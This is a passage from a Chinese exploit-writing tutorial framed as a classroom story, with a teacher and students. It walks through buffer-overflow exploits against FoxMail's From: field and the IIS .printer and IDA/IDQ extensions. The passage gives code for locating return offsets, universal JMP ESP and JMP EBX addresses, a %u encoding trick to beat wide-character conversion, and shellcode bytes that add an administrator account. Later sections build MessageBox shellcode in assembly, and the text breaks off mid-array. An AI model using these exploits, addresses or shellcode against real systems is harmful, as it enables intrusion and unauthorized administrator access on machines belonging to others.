“漏洞公告还会给出大概的问题分析。图 1-17 就说到了，有问题的东东是 punylib.dll。安装了 FoxMail 后，我们可以在安装目录的 3rdParty 子目录下发现它，大家看！”如图 1-18。


“除此之外，漏洞公告一般还会给出漏洞的解决办法或补丁下载，这里我们就不关心了，但在平时生活中，大家一定要重视，这可是安全的保证哦！”

“当然，漏洞公告是不会给我们说如何利用漏洞的。所以除了查看漏洞公告，我们还要查找其他人或安全组织的相关漏洞分析报告。比如 root 关于 FoxMail 漏洞的分析，如图 1-19。”


“好了，从漏洞公告和分析中，我们可以知道，是 FoxMail 在处理 From:字段时允许的长度超过了缓冲区分配的长度，从而导致了缓冲区溢出。以上的大家都能理解吧？”老师问道。

“嗯。但如何写该缓冲区溢出漏洞的利用程序呢？”胖胖的玉波急不可耐了。

“好，就让我们依次解决上节课上说的三个条件，来实现对 FoxMail 漏洞的利用编写。首先复习一下要成功利用缓冲区溢出需要的三个条件：

1.有问题程序返回点的精确位置――我们可以把它覆盖成任意地址。

2.ShellCode――一个提供给我们想要的功能的代码。

3.JMP ESP 的地址――把返回点覆盖 JMP ESP 的地址，这样可跳入 ShellCode。”

“这三点大家一定要牢牢记在头脑里，这是标准缓冲区堆栈溢出利用的标准方法！”

同学们都使劲的点点头。

“来，就让我们一步步的解决需要的这三个条件吧！”

# 1.7.2 美妙定位溢出点

### 1.7.2 美妙定位溢出点

“第一个条件是最主要的：‘有问题程序’返回点的精确位置。从漏洞公告和漏洞分析中我们可以知道，邮件的‘From:’字段太长就会覆盖到返回地址，那我们就写一个初步的溢出程序框架 FoxMail1.c，来逐步定位返回点的位置。这个程序很简单，就是往邮箱发一封信，而且只有‘From:’字段。不要小看这个框架哦，虽然简陋，但我们会在此基础上打造出最终的梦幻版本。”

[FoxMail1.c 请参见光盘 ]

“在程序的 FoxMail1.c 中，我们对‘From:’字段进行填充。因为不能超过 0x200 的长度，所以我们先填充 0x150 个 A 试试。”

```
memset (buffer, 0x41, 0x150);
sprintf (temp, "From: %s\r\n", buffer);
send (sock, temp, strlen (temp), 0);
```

“然后执行程序，发送成功！”如图 1-20。


“然后我们用 FoxMail 接收邮件，大家看图 1-21。”


“噢！接收的时候出错了！‘41414141’就是我们添加的 A 啊！”

“找到喽！”教室里一片欢腾。

“等一下！”老师把手一挥，“我把它们列出来，让大家仔细看看，和上节课的报错信息对比一下。”。

上节课的报错信息如图 1-22。


FoxMail 的报错信息如图 1-23。


“发现有什么不同了吗？”老师问道。

“一个有两个按钮，一个只有一个按钮……”

“倒~~~”老师当即晕倒。

费了好大劲站起来后，老师说：“对，这的确是个不同的地方，这是由于程序错误的处理机制不同而造成的。但这不是重要的地方，大家再仔细看看里面提示的信息有什么不同。”

小知识：不同出错处理的外在表现

1.弹出“只有一个确定按钮的红叉框”，意味着外层有“**try/**except”块决定处理异常，而内层有“**try/**finally”块。当按下确定后，是在“**try/**finally”中执行。

2.弹出“有调试、关闭按钮的非红叉框”，意味着设置了“Just-In-Time Debugging”，并获得机会执行，这已经是最后机会了。

3.弹出“只有一个关闭按钮的非红叉框”，意味着没有设置“Just-In-Time Debugging”，内层也没有决定处理异常的“**try/**except”块。

4.触发异常，但什么框也未弹出，意味着内层有“**try/**except”块决定处理异常。或者在异常处理过程中再次触发异常。

宇强仔细看后，说道：“那…是不是前一个提示的是内存不能 read（读）而出错；而后一个提示的是内存不能 write（写）而出错？”

“对！就是这里啦！”老师高兴的说。“是这样的，我们覆盖了 0x150 个 A，可能不仅覆盖过了 EIP 的地方，而且还覆盖了其他一些程序要用的参量，如果在程序返回前，要对那些参量改写，但参量的地址被改成‘41414141’，是根本不能写的，所以就造成了写（write）类型错误！”

“哦，原来是这样，那怎么办呢？” 宇强发现那位 PLMM 在自己发言时朝这边看了一眼，心中紧了一下，多么美丽的眼眸啊！

老师可不会注意这些，回答道：“我们把‘From:’字段覆盖短一点，要覆盖到返回地址，但不要覆盖到那些参量地址。这里我们采用二分法：即先前 0x150 太长，就改成 0x75，如果 0x75 太短，不能覆盖返回地址没有报错，那又改长一点，改成 0x115 的长度，以此类推。”

老师接着说：“当我们覆盖到 0x104 时，我们想要的结果出现了！如图 1-24。”

```
memset (buffer, 0x41, 0x104);
sprintf (temp, "From: %s\r\n", buffer);
send (sock, temp, strlen (temp), 0);
```


“哦！和原来那个是一样的错误，都是 Read 错误！”同学们叫了起来。

老师笑道：“哈哈，对！说明我们填充‘From:’字段时不能超过 0x104 的长度。解决了这个问题，我们继续，想办法定位返回点的位置。”

“大家想想，上节课的返回点我们是怎么确定的呢？”老师提示大家。

“嗯……是根据报错信息直接数出来的。”古风说道。

“对，这里我们也仿照那样，但这里的缓冲区太长了，我们把数的方法改进一下。”老师大笔一挥。

“我们改变 FoxMail1.c，把‘From:’字段的填充方法改一下。改变的程序为 FoxMail2.c。”

“我们把 FoxMail1.c 填充‘From:’字段的那段替换为如下。”

```
for(i=0; i<=0x104; i++)
    buffer[i] = 'A' + i % 10;
sprintf (temp, "From: %s\r\n", buffer);
send (sock, temp, strlen (temp), 0);
```

“我们进入邮箱，把原来的信删除；再执行 FoxMail2.c，给邮箱发封新信。这次用 FoxMail 接收时出现的报错框成了‘Access violation at address 4A494847,Read of address 4A494847’， 如图 1-25 所示。”


“OK，我们记录下这个数字，看来这次是 0x4A494847 覆盖了返回点。再在 FoxMail13.c 中把 buffer[i] = 'A' + i % 10 的取余数改为整除。”

```
for(i=0; i<=0x104; i++)
    buffer[i] = 'A' + i / 10;
sprintf (temp, "From: %s\r\n", buffer);
```

“再次删除信件，执行 FoxMail3.c。用 FoxMail 接收，这次出现的错误框成了‘Access violation at address 5A5A5A5A,Read of address 5A5A5A5A’，如图 1-26。”


“从上面的两个提示中，我们就可得到精确的返回地址位置了！”老师得意的说。

大家都丈二和尚摸不着头脑：“怎么得到呢？”

“不要急，我们一起来推算一下。分析一下上面两次我们做的事情。”

“第一次用 FoxMail2.c，是在‘From:’字段不停的加上 A~J 的循环（就是十六进制 0x41~0x4A 这十个数的循环）。”

“第二次用 FoxMail3.c，是以 10 为一段长度，每段分别为 0x41、0x42……来填充‘From:’。”

“注意了，第一次溢出时报错的最小值是 0x47，此时只有 0x41~0x4A 在不断循环，所以我们可大胆推出尾数是 0x47－0x41＝6。”

“在第二次溢出时报错的全部是 0x5A，而此时是从 0x41 开始，每 10 个数为一段。所以 0x5A－0x41＝0x19，就是十进制的 25，即在字符串的第 25 个段。”

“所以我们可大胆计算出程序的返回点位置是： （0x5A－0x41）×10＋（0x47－0x41）＝25×10＋6＝256 ”

“哇！这样啊！”大家一片欢呼！

“哈哈，我们验证一下猜测结果吧！再改一下程序，指定‘From:’字段第 256 开始的四个字节是‘BBBB’，而其他全部为‘A’。”

```
memset(buffer, 'A', 0x104);
buffer[256] = 'B';
buffer[257] = 'B';
buffer[258] = 'B';
buffer[259] = 'B';
```

“代码如上修改后，如果猜测正确，大家想想，会是什么样呢？”老师问道。

“嗯，应该是‘BBBB’覆盖到了返回地址吧！”

“我们一起试试吧！执行这个程序（FoxMail4.c），果然弹出的对话框成了‘Access violation at address 42424242,Read of address 42424242’，如图 1-27。”


“42 就是‘B’的 ASCII 码表示！”

“哇！So Cool！”堂下响起了一片掌声！

“谢谢，谢谢大家的鼓励，我能取得现在这个成绩，是离不开大家的支持，谢谢你们，我爱你们！”

台下无语※※……￥

“呵呵，上面溢出点定位的方法非常巧妙和准确，以后大家在标准的堆栈溢出中，可经常使用这种方法来进行定位。”老师强调到。

“太好了，真是个好方法啊！这样别人给出漏洞证实程序，我们可以很快定位了！”教室里顿时议论纷纷。

“嗯，OK，回到我们这个程序的利用上来吧！”

# 1.7.3 ShellCode 的使用

### 1.7.3 ShellCode 的使用

“让我们再看看第二个条件――ShellCode。ShellCode 很重要，但这里我不详细介绍， ShellCode 的编写很有考究的，会涉及到各方面。应用不同，要求不同，编写也不同。如果同学们有兴趣，我会抽个时间讲‘ShellCode’的编写。”

“有有有，当然有兴趣啦！”听老师一说，大家都争先恐后的表示想听。

“呵呵，那好吧，我们在以后的课程中涉及。这次我就直接给出在中文 Win2000 SP2 下添加名为‘w’用户的 ShellCode。以后大家会写 ShellCode 时，直接替换掉就可以了。"

```
char ShellCode[] = 
    "\x8B\xE5\x55\x8B\xEC\x33\xFF\x57\x57\x57\x57\xC7\x45\xF1\x6E\x65"
    "\x74\x20\xC7\x45\xF5\x75\x73\x65\x72\xC7\x45\xF9\x20\x77\x20\x2E"
    "\x80\x45\xFC\x01\xC6\x45\xFD\x61\xC6\x45\xFE\x64\x33\xC0\x88\x45"
    "\xFF\x8D\x45\xF1\x50\xB8\x4A\x9B\x01\x78\xFF\xD0" ;
```

# 1.7.4 通用的 JMP ESP 地址

### 1.7.4 通用的 JMP ESP 地址

“最后是第三个条件――JMP ESP 地址。这个上次给大家讲了，并给出了中文 Win2000 各版本相应的地址，大家直接使用即可。但各个版本不统一，使用起来相当麻烦。这里，我再给大家一个大餐――中文版 Win2000、XP、Win2003 的 JMP ESP 通用跳转地址（lion 给出的 0x7ffa4512）。经我测试，绝对可用，童叟无欺！是编写溢出利用程序的必备良药！让我们一起感谢 lion 的无私共享精神吧！这才是真正的 Hacker 精神，大家一定要发扬啊！”

大家听后拼命的点头：“好也！”

“好吧，这下我们的三个条件都有了，我们来完成统一吧！”

“初步分析后，我们知道‘From:’字段作如下构造就可跳入我们的 ShellCode。如果还有不清楚的同学，请再复习一下上节课的内容。如图 1-28。”


“对！就这样喽！”

“但是，大家别忘啦！”老师突然一喝！“这样和最开始我们覆盖 0x150 个‘A’测试时是类似的，ShellCode 会把程序要写的参量覆盖了，那程序在返回之前，会产生那个 write 型错误！”

“哇，是啊，这可怎么办啊？”那位 PLMM 紧张的说，瞬间她成为了整个教室的焦点，大家都屏住了呼吸，一是想仔细听听这清脆的声音，二是等待着老师的回答。

“在这种情况下，一般有三种解决方法”，老师耐心的解释道。“第一种，注意覆盖参量为可写的地址，即保证参量是可写的，不让它出现 write 错误，但这种方法很麻烦，需要知道不能写的参量的所有位置；第二种，覆盖异常，这种方法会在后面讲到；第三种，就是这里我们使用的，把 ShellCode 放在前面！根本不覆盖参量。”

“哦？把 ShellCode 放在前面是什么意思？”宇强见 PLMM 不太懂，也忙着问老师。

“就是说，我们把 ShellCode 放在 RET 前的缓冲区中，而在 RET 后面放入很短的一个指令，指令的内容就是往前跳，跳到前面的 ShellCode 中。”

“形象的说，就是这样的格式，根本不去覆盖不能改变的参量，如图 1-29。”


“在这样的格式下，返回时程序就会先执行 JMP –0x80 这个指令，往前跳到一堆空指令中，然后顺着空指令往下执行，最后进入到 ShellCode 中，就可执行我们的 ShellCode 了。”

“哦！这样啊！太有创意了！”大家感叹道。

“这是很基本的方法，更多精彩还在后面呢！”老师回答说，“好，这里不罗嗦了，让我们按照这个格式，给漏洞以最后一击，写出最终的利用程序――Exploit！”

[ 参看光盘中的程序 FoxMail5.c ]

“我们先把邮箱清空，编译 FoxMail5.c 并执行，再用 FoxMail 接收邮件。只要一接收，就会在本机上添加一个名为‘w’的管理员用户了，大家看图 1-30。”


“也！太帅了！”

“大家也注意到了吧，通过我们的实际编写，发现只要用户用 FoxMail 一收邮件，就会马上触发。而不是像有些厂商传闻的那样只在用户回复该邮件时才被触发。所以国内外软件开发公司对待漏洞发现者的态度、漏洞本身的态度、对产品使用用户公布漏洞信息的态度……”老师逐渐沉默了。

“是啊，厂商还居然说是漏洞发现者的炒作，这简直太不负责任了！明明有问题，还不敢承认。”同学们一个个义愤填膺！

“算了，我们这里只讨论技术，其他方面就不多评论了。”老师又恢复了原来的生气，“这里再和大家一起总结下对 FoxMail 的利用过程吧！”

“第一步、精确定位返回点。我们用求余取整法可巧妙得到返回位置。”

“第二步、ShellCode 编写。我们直接用别人写好的 ShellCode。”

“第三步、JMP ESP 的地址。我们使用 Lion 共享的中文通用地址――0x7ffa4512。”

“最后把它们合起来，由于返回点后面不远处不能覆盖，所以我们把组合位置作稍稍改变，把 ShellCode 放前面，RET 后面放一个往前跳的指令，用这样的方式跳到我们的 ShellCode 中。”

“ShellCode 的功能是添加用户。好了，这样就完成了我们首个缓冲区漏洞的利用编写了，是真实的漏洞哦！感觉怎么样啊？”

“太有成就感了！”同学们嚷道。

“呵呵，那就好，兴趣就是这样培养起来的，有了兴趣就会更有动力钻研下去，钻研也是真正的黑客精神的一部分。大家休息一下，然后我们再继续。”

# 1.8 牛刀小试――Printer 溢出漏洞编写

## 1.8 牛刀小试――Printer 溢出漏洞编写

课间十分钟，大家和老师随便的聊了起来。

“哇！我们这里有几位女黑客啊！难得啊！”老师说。

全班同学都笑了起来。

“几位女黑客介绍一下自己啊！让大家认识一下。”老师边喝水边说。

“嗯，我叫小亮。”“我叫小红。”几位女生依次介绍自己。

宇强仔细的听着，到那位 PLMM 时更是聚精会神。

“我叫吴小倩。”PLMM 清晰的说道。

“多好听的声音啊！ 宇强暗暗想到，“而且，小倩…嗯？《倩女幽魂》中王祖贤扮演的就是小倩嘛！

宇强想起了《倩女幽魂》中的诗――“十里平湖霜满天，寸寸青丝愁华年。对月影单望相护，只羡鸳鸯不羡仙。”

“什么啊，《倩女幽魂》讲的是鬼魂啊，自己想到哪儿去了。”宇强暗暗骂了自己一句。

老师在台上继续说：“几位女同学要努力啊！以后成为像 wollf 一样的中国女黑客啊！”

大家都笑了起来，几位女同学也抿着嘴乐了。

“好，我们趁热打铁，利用刚才的步骤迅速完成对 IIS5.0 Printer 漏洞的利用编写吧！”

# 1.8.1 漏洞背景

### 1.8.1 漏洞背景

“IIS 的 Printer 漏洞只对 Win2000SP0、SP1 版本有效，可以说是个元老级的漏洞了，现在基本上都没有了，大家用它来练练手吧！”

小知识：IIS（Internet Infomation Server）：Internet 信息服务。它是一种 Web 服务，主要包括 WWW 服务器、FTP 服务器等。它使得在 Intranet（局域网）或 Internet（因特网）上发布信息很容易。

“微软 Win2K IIS5 的打印 ISAPI 扩展接口建立了.printer 扩展名到 msw3prt.dll 的映射关系，缺省情况下该映射存在。当远程用户提交对.printer 的 URL 请求时，IIS5 调用 msw3prt.dll 解释该请求。由于 msw3prt.dll 缺乏足够的缓冲区边界检查，远程用户可提交一个精心构造的针对.printer 的 URL 请求，这样，就会在 msw3prt.dll 中发生典型的缓冲区溢出，潜在允许执行任意代码。”老师简单的介绍了漏洞的背景和原因。

# 1.8.2 构造利用

### 1.8.2 构造利用

“我们看看如何利用它吧！还是三大步骤。”

“第一步、确定返回点的位置。这里我们查看相关的漏洞公告和分析公告，可以知道，对[`域填充到 268 个字节时就可以覆盖到 EIP。”`](http://域填充到 268 个字节时就可以覆盖到 EIP。”)

“第二步、ShellCode。我们还是使用现成的 ShellCode 吧！给 SP0 的机器添加一个用户。”

“第三步、JMP ESP 的地址。还用说吗？Lion 大虾的地址是通吃的。”

“好了，把它们组合起来，格式如图 1-31。”


“然后轻松把他们合成程序 Printer.c，我们把写好的程序编译、执行！再看远程机器的效果吧！”

“Yeah！成功添加了一个用户！”“太好了！”又是一阵欢呼，宇强简直不敢相信，“太容易了吧！”

“呵呵，讲解这个漏洞一方面是让大家再熟悉一下溢出编写的基本思路，但更关键是，我要通过这个漏洞讲解缓冲区溢出利用的另一种形式――更常用的形式，大家千万别松气哦！”

# 1.10 拾阶而上——IDA/IDQ 溢出漏洞编写

## 1.10 拾阶而上——IDA/IDQ 溢出漏洞编写

“好了，诸位，经过刚才的讲解，大家清楚了 JMP ESP 和 JMP/CALL EBX 两种方式的利用和区别吧？”

“嗯，好想再来一次 JMP/CALL EBX 的实战啊！”大家都感叹道，连玉波都不觉得饿了。

“好！大家有兴趣就好！兴趣是最好的老师！既然大家很想，那我们再来一次实战，巩固一下知识吧！”

“好咧！”

“这次我们就对 IIS 的 IDA/IDQ 漏洞进行利用编写吧！”

# 1.10.1 漏洞公告

### 1.10.1 漏洞公告

“首先，我们来看看漏洞公告，如图 1-42。”


小知识：IIS 的 IDA/IDQ 漏洞

作为安装 IIS 过程的一部分，系统还会安装几个 ISAPI 扩展.dll，其中，idq.dll 是 Index Server 的一个组件，对管理员脚本和 Internet 数据查询提供支持。但是，idq.dll 在一段处理 URL 输入的代码中存在一个未经检查的缓冲区，攻击者利用此漏洞能导致受影响的服务器产生缓冲区溢出，从而执行自己提供的代码。更为严重的是，idq.dll 是以 System 身份运行的，攻击者可以利用此漏洞取得系统管理员权限。

“该漏洞对 Win2000 SP0、SP1、SP2 有效。大家可以看到，采用 GET /NULL.ida?[bufer]=x HTTP /1.1 对 Buffeer（缓冲区）域进行填充，就可以覆盖到 EIP，再继续也可以覆盖到异常处理点。”

# 1.10.2 初步利用

### 1.10.2 初步利用

“我们温故而知新，还是按照三个步骤来进行。”

“第一、异常点位置。通过漏洞分析可以知道，异常处理点在 Buffer（缓冲区）第 240 字节处，所以我们在 236 字节放上 NOP NOP jmp 04 ，在 240 字节处放上 JMP EBX 的地址，在 244 字节放上我们的 ShellCode。”

“第二、ShellCode。这里我也不说了，还是添加用户。”

“第三、Jmp EBX 的地址——0x7FFA1571。”

好，我们的三步曲都有了，来构造吧！构造形式如图 1-43。”


“哦，Yeah！，我们把构造好的程序运行吧！”大家都迫不及待了。“好！运行！”手忙脚乱的把程序编译并运行开来。

“咦？怎么没有反应？”等了半天后，同学们望着黑黑的屏幕都呆了。

“呵呵！”老师看到大家忙完后才说道，“这个 IIS 漏洞和前面讲的那些漏洞有些不一样——它要对 URL 进行一定的编码转换，这样转换后，我们的 JMP 04、JMP EBX 的地址和 ShellCode 都被改变啦！当然就不能执行我们想要的 ShellCode 了。”

“啊？”

“这就是该漏洞不同的地方，也给大家带来了些挑战性，但在实际中，这种事还是很常见的。比如 Cmail 会把大写改成小写等。”

“哦，那怎么解决呢？”大家问道，“这方面不解决，那很多漏洞都不能用了。”

“对！我们一定要解决。但解铃还需系铃人，首先要看看 IDA 是如何变换那些 URL 请求字符的！”

# 1.10.3 宽字符

### 1.10.3 宽字符

“对 IDA/IDQ 漏洞提交的 URL 被改变，是因为发送的内容由单字节转换成了宽字符。”

小知识：单字节、多字节和宽字节

在多年前，许多人一直将文本串作为一系列单字节字符来进行编码，并在结尾处放上一个零。但单字节只能有 256 种编码，根本不够表示世界各国的文字。这样，就出现了多字节编码。

在多字节编码中，字符有单字节和双字节。在双字节字符中，第一个字节或“前导字节”发出信号，表示它和下一个字节将被解释为一个字符。因为字节编码既有单字节又有双字节，这样就比较麻烦。

“宽字符”是双字节、多语言字符代码。每个字符都用固定的 16 位大小表示，因此使用宽字符可以简化国际字符集的编程。特别的，Unicode 就是一种宽字符编码的国际标志，它用一个 16 位的值来表示每个字符。

“所以，在最开始的时候，eEye 的办法是在 ShellCode 前面放上很多 NOP，这样就把 ShellCode 推向了 0x004x00xx 的地址，就可以用 xx4x 这样的串来覆盖 ret，这个串被扩展为 xx004x00 以后，正好跳转到 ShellCode 的位置。”

“哇，办法很巧妙哈！”大家说道。

“嗯，这种方法虽然理论上行得通，但实际上问题非常多，可以控制跳转却无法执行代码，而且不同的机器这个 0x004x00xx 都不一样，这样就很难做出通用性比较好的 Exploit。”

“哦，那怎么办呢？”

“随着技术的发展，有人发现可用巧妙的方法来避开被扩展成宽字符，这样我们就可轻松的改写很完善的 Exploit 了！”

“哦！黑客精神真是好啊！很多困难的问题大家一起解决、一起进步。”大家由衷的说道，“用的是什么方法呢？”

“方法就是：在我们要用的 JMP 04、JMP EBX 地址和 ShellCode 前面加一个‘%u’符号，IIS 是这样处理‘%u’的，它认为是宽字符，就不再作变换了。比如，JMP 04 的指令写成 %u04eb 。我们把 ShellCode 都加上‘%u’，就不会改变我们的东西了。”

“哦！这样啊！真是一语点破天机啊！”台下感叹道。

“呵呵，这就是黑客魅力的所在。好了，我们就用这个办法把这个 Exploit 完成吧！”

“好咧！”

大家一边回答，一边给 ShellCode 添上“%u”标志。

“呼！ 添加完成了。”同学们擦擦汗。

“好！我们运行试试吧！”老师一编译、执行，哈，一个用户就添加上了。

“哦！”教室里欢呼了起来，“成功罗！成功罗！”

“呵呵，菜鸟还是有菜鸟的乐趣吧！尤其是经过种种挫折后的成功，会很有成就感的！好，今天就到这里，下周这个时候我们再继续吧！”

# 课后解惑

## 课后解惑

Q：用 JMP ESP 地址覆盖时，意思是要跳到 ESP 去执行，那 ESP 具体的值是多少呢？

A：你还没有理解覆盖的意义。我们不需要知道 ESP 具体的值，只需要知道 JMP ESP 指令的地址就可以了。而 JMP ESP 指令的地址在同种系统甚至是不同种系统下，都有相同的值，即 0x7FFA4512。建议再看看本章节 ShellCode 的定位部分。

Q：怎么知道 JMP ESP 指令的地址呢？

A：JMP ESP 指令的机器码是 FF E4。只要你发现内存里面有一个地方是 FF E4，那么就可以用此地方的地址了。比如，你查看内存 0x7FFA4512 的地方，只要是中文版 Windows，一定放的是 FF E4 指令，所以说是通用地址。

Q：怎么知道 JMP ESP 指令的机器码是 FF E4 呢？

A：即可以用查询工具得到，也可以在 VC 中用“__asm{}”嵌入汇编 JMP ESP，再按 F10 进入调试，然后调出 JMP ESP 代码对应的机器码。

我们将在 ShellCode 编写一章，详细讲解得到机器码的过程；在堆溢出一章有查找 call [esi+0x4C] 指令机器码的讲解，过程类似，可以参看。

Q：只能用 ESP 来定位吗？

A： 当然不是啦！最好把当时寄存器的内容都看一遍，比如覆盖异常时，我们用 EBX。

Q： 覆盖异常处理点时，我用的就是 CALL EBX 指令地址，为什么会失败？

A： 在 Windows 2000 下，可以用 CALL EBX 指令地址覆盖；但在 XP 下，EBX 会变为 0，需要用 POP POP RET 的指令地址来覆盖。这也有个中文版ＮＴ/Win2000/Win2003 都通用的地址——0x7FFA1571。我们将在 ShellCode 变形一章的 MDTM 漏洞利用讲解时详细讲到。

Q： 为什么会存在通用地址呢？

A： 上面说的两个通用地址都是指中文版的通用地址。是因为在同一个语言版本中，存在着一个从来没有改动过的程序——svchost。它只是一个壳，用以启动其他程序，所以我们很幸运，能在它那里找到通用的地址。

Q： 有世界通用地址吗？

A： 抱歉，我不知道！但同种版本的各语言版本，比如 Windows 2000 SP3 的中文版和英文版，在 Msvcrt.dll 中找到的地址可以通用。

另外，同一种语言的各个系统版本（比如中文版 Windows2000、Windows XP），在 0x7FFA0000 中找到的地址可以通用，就像 0x7FFA4512 和 0x7FFA1571。

如果你找到了世界通用地址，请共享一下，谢谢！

Q：只能是用 JMP CALL RET 这样的指令地址来覆盖吗？

A：大多数情况下是这样。

Q：Windows 可以确切的定位了，但 Linux 下有确切的定位 ShellCode 的方法吗？

A：在 Linux 下，可以把 ShellCode 放在环境变量，然后就能确切计算出 ShellCode 在内存中的地址，也非常精确。

Q：在分析你给的那个例子程序时，发现 ESP 一来就减很大的值，为什么分配这么大的缓冲器还要溢出呢？

A：分配的空间是系统自己用的。但 output[8]还是只分配了 8 个字节的空间。

Q： 奇怪，在“name”数组比较短的时候，测试会报错；但我按照格式覆盖并加上 ShellCode 后，结果不但没弹出窗口，连错误也不报了，这是怎么回事啊？（这个问题我就遇到了~~~55555）

A： 是用的覆盖地址不对。而没有报错，是因为你覆盖的字符串太长了，把异常处理点也覆盖了，当然报错对话框也弹不出来了。

使用系统相关的地址，我们马上会在第二章 ShellCode 的编写中讲到。

# 第二章、Windows 下 ShellCode 编写初步

# 第二章、Windows 下 ShellCode 编写初步

“上课了，上课了！”同学们一边兴高采烈的讨论着一边步入教室。新的一周又开始了。

“嗯，大家经过这两次课的学习，有什么感觉啊？”老师等同学们坐好后问。

“噢，这几次课我们对溢出编写的基本思路有了清晰的了解；掌握了利用缓冲区溢出的两种方式；同时还对大量的实际漏洞进行了成功的编写。”古风认真的说道。

“嗯，让我们的兴趣和技术都得到了很大的提升。”玉波说。

“同时，我们也认识到了真正的黑客精神是钻研和共享！” 宇强佩服的说道。

“……”

“好！”老师赞扬道，“大家有了这些认识就很好！只要有了兴趣和钻研的精神，就可自主的不断深入下去；同时，有了共享的精神，就会得到别人的尊敬，并且一同讨论、一起进步。”

“嗯！”大家认真的点点头。

“但是，老师。”宇强说道：“虽然我们的溢出水平的确有所提高。但在实际编程中，对 ShellCode 的编写不是特别明白，对复杂漏洞（比如堆溢出漏洞）也还不清楚，希望能继续的学习。”

老师笑道：“呵呵，别着急，在后面的章节中我们会慢慢深入下去的。大家有这个不断学习的想法就很好！再提醒一次，学习更重要的是方法，而不是技术本身。如果你掌握的只是技术，技术会很快过时，那你就没有机会了；如果掌握的是方法，那你就能很轻松的应对技术的变迁。”

大家齐声答道：“嗯，我们一定会注意的！”

老师说道：“那好，首先我们一起来看看 ShellCode 的编写吧！”

# 2.4 弹出 Windows 对话框 ShellCode 的编写

## 2.4 弹出 Windows 对话框 ShellCode 的编写

“刚才 ShellCode 的功能是弹出 DoOS 窗口控制台，虽然可以让我们做很多事情；但黑乎乎的，有点不爽！”玉波开玩笑说。

“是啊，爱美之心人皆有之，我也这么认为。”老师说。

“呵呵，是啊！”大家都笑了。

“好。那我们来写一个‘漂亮点’的 ShellCode 吧！弹出一个 Windows 图形界面的对话框，如何？

“好啊！”

# 2.4.1 C 程序解释

### 2.4.1 C 程序解释

“要弹出一个 Windows 对话框，user32.dll 中的 MessageBox 函数可以帮助我们完成这个功能。”老师说道。

“简单的说，程序只要一句话，实现如下。”

```
#include "windows.h"
int main(int argc, char* argv[])
{
         LoadLibrary("user32.dll");
         MessageBox(0, "ww0830","ww", 1);         
         return 0;
}
```

“首先，‘LoadLibrary("user32.dll")’是加载 user32.dll 动态链接库，大家都应该清楚吧！”

“然后，‘MessageBox(0, "ww0830","ww", 1)’是弹出 Windows 对话框。我们执行，可以看到对话框的标题是‘ww’，里面的内容是‘ww0830’。如图 2－16，好看多了吧？”


古风核对了一下说道：“哦！那说明 MessageBox 函数带的第二个参数‘ww0830’是对话框内容，第三个参数‘ww’是标题内容？”

“恩，是的！”

“那还有第一个和最后一个参数呢？一个用的是 0，另一个用的是 1，又代表什么意思呢？”古风继续问道。

“呵呵！我们看看官方（微软）给的定义吧！第一个参数的帮助信息如下：”

```
hWnd 
[in] Handle to the owner window of the message box to be created. If this parameter is NULL, the message box has no owner window.
```

“意思是，第一个参数表明对话框所属的窗口句柄。如果第一个参数为 NULL（即 0），那么对话框不属于任何窗口。这里我们用的就是 0，弹出不属于任何窗口的对话框。”

“而最后一个参数，是表明对话框的类型。0 代表 MB_OK，即只有一个‘OK’按钮；1 代表 MB_OKCANCEL，对话框会有‘OK’和‘Cancel’两个按钮。这里我们用的就是 1，两个按钮的对话框比较好看吧！”

“对话框还有很多类型，比如 MB_RETRYCANCEL、MB_YESNO、MB_YESNOCANCEL 等，大家可以下去自己看看。”

“这里我们接着分析汇编和 ShellCode 的生成。”

# 2.4.2 生成汇编和 ShellCode

### 2.4.2 生成汇编和 ShellCode

“对比前面的分析。执行 system(“command.exe”) 时，先把参数 command.exe 字符串的地址入栈，再 call system 的地址就行了。”

“那么，执行 MessageBox(0, "ww0830","ww", 1) 就是把四个参数从右至左压入堆栈，即先压 1，再压‘ww’字符串的地址，然后是‘ww0830’字符串的地址，最后压 0；接着 CALL MessageBox 函数的地址就 OK 了。”

“1 和 0 多好压啊！只要 PUSH 0、PUSH 1 就完成了。”玉波嚷道，“可惜还有两个参数呢！如果参数都是数字就好了。”

宇强想想后，问道，“那‘ww’和‘ww0830’这两个参数串莫非像构造 command.exe 字符串那样，先在栈里面构造出来，然后把它们的地址作为参数入栈？”

“太对了！”老师表扬道，“第三个参数‘ww’是对话框标题，我们在‘ebp－0Bh’和‘ebp-0A’的地方都放‘w’，而‘ebp-09’放字符串结束标志 0x00。那么，‘ebp－0Bh’就是字符串的地址了。示意图如图 2－17。”


“我们把‘ebp－0Bh’放在 ESI 中保存起来，等会儿作为参数入栈，代码如下：”

```
//标题"ww"->esi
mov byte ptr[ebp-0Bh],77h//w
mov byte ptr[ebp-0Ah],77h//w
mov byte ptr[ebp-09h],0h//0x00
lea esi,[ebp-0Bh]
```

“然后第二个参数（对话框的内容）‘ww0830’也是类似。我们把它放在‘ebp-07h’开始的地方，并保存在 ESI 中，代码如下：”

```
//内容"ww0830"->edi
mov byte ptr[ebp-07h],77h//w
mov byte ptr[ebp-06h],77h//w
mov byte ptr[ebp-05h],30h//0
mov byte ptr[ebp-04h],38h//8
mov byte ptr[ebp-03h],33h//3
mov byte ptr[ebp-02h],30h//0
mov byte ptr[ebp-01h],0h//0x00
lea edi,[ebp-07h]
```

“参数都构造好了。最后我们合起来执行 MessageBox(0, "ww0830","ww", 1) 吧！”

“第四个参数是 1，我们就直接 PUSH 1；倒数第二个参数是标题字符串的地址，我们存在 ESI 中的，所以 PUSH ESI；同样，内容字符串的地址是在 EDI 中，我们 PUSH EDI；第一个参数是 0，我们 PUSH 0。”

“参数都入栈后，我们 CALL messagebox 函数的地址。在我的机器上，函数的地址是 0x77d3add7，我们直接 CALL 0x77d3add7 就完成执行函数了。这段汇编代码如下：”

```
push 1                          //1
push esi                        //标题
push edi                       //内容
push 0                          //0
mov eax,77d3add7h       //messageboxa()
call eax
```

“合起来，在 VC 中用 __asm{}嵌入，编译并执行，还是弹出对话框。成功！如图 2－18。”


“哦！又成功了！”大家满脸喜悦。

“接下来大家提取 ShellCode 吧！也顺便再复习一下。”

“好的，在 VC 中按 F10 调试，然后调出汇编和对应的机器码，如图 2－19。我们把对应的机器码抄下来就可以了。”古风边说边抄。


古风抄完后说道：“这样得到弹出 Windows 对话框的 ShellCode 如下。”

```
Char ShellCode[] = 
    “\x55\x8B\xEC\x81\xEC\x80\x00\x00\x00\xC6\x45\xF5\x77\xC6\x45“
    “\xF6\x77\xC6\x45\xF7\x00\x8D\x75\xF5\xC6\x45\xF9\x77\xC6\x45“
